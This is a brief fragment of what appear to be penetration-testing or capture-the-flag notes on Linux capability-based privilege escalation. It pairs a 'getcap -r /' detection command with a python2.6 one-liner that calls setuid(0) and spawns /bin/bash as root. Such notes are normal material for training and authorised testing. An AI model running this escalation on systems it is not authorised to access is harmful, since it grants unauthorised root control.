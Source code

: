 #### Detection
```bash - target
getcap -r / 2>/dev/null
```

![[Pasted image 20221115135636.png]]

```bash - target
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
